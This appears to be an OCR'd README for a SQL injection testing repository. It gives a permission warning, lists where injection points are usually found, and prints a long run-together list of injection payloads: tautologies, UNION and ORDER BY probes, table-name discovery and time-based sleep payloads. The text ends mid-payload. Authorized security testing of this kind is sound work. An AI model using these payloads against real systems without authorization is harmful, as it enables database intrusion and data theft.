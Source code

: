 # SQL Injection Testing Guide
**⚠️ Important Note:** Always ensure you have explicit permission to test the target systems. Unauthorized testing can be illegal and unethical. Use these techniques only in controlled environments or on platforms where you have authorization.

## Overview

SQL Injection (SQLi) is a vulnerability that allows attackers to interfere with the queries an application makes to its database. This repository contains a collection of SQL injection payloads to help you test for these vulnerabilities.


### 2. **Testing for SQL Injection**

Follow these steps to test your platform for SQL injection vulnerabilities:

#### **A. Identify Injection Points**

Usually, it's tested in search boxes, user inputs and urls. So look for the following:

1. **URL Parameters**: Look for parameters in the URL, such as `http://example.com/page?id=1`.
2. **Form Inputs**: Test fields in forms, like search bars or login forms.
3. **HTTP Headers**: Check custom headers or cookies that might be used in SQL queries.
4. **API Endpoints**: Test any API endpoints that interact with a database.

#### **B. Apply SQL Injection Payloads**

1. **Injection Tests**

   Start with simple payloads to see if input fields are vulnerable:
   ```sql
   ' OR '1'='1
sql

  Or just use the big guns. Note go and remove peaces of code as you're testing, usually I go test peaces of this code to check if something changes:
  ```sql
' '' ` `` , " "" / // \ \\ ; ' or " -- or #  ' OR '1 ' OR 1 -- - " OR "" = " " OR 1 = 1 -- - ' OR '' = ' '=' 'LIKE' '=0--+  OR 1=1 ' OR 'x'='x ' AND id IS NULL; -- '''''''''''''UNION SELECT '2 %00 /*…*/  +		addition, concatenate (or space in url) ||		(double pipe) concatenate %		wildcard attribute indicator  @variable	local variable @@variable	global variable   # Numeric AND 1 AND 0 AND true AND false 1-false 1-true 1*56 -2   1' ORDER BY 1--+ 1' ORDER BY 2--+ 1' ORDER BY 3--+  1' ORDER BY 1,2--+ 1' ORDER BY 1,2,3--+  1' GROUP BY 1,2,--+ 1' GROUP BY 1,2,3--+ ' GROUP BY columnnames having 1=1 --   -1' UNION SELECT 1,2,3--+ ' UNION SELECT sum(columnname ) from tablename --   -1 UNION SELECT 1 INTO @,@ -1 UNION SELECT 1 INTO @,@,@  1 AND (SELECT * FROM Users) = 1	  ' AND MID(VERSION(),1,1) = '5';  ' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --   Finding the table name   Time-Based: ,(select * from (select(sleep(10)))a) %2c(select%20*%20from%20(select(sleep(10)))a) ';WAITFOR DELA
sql
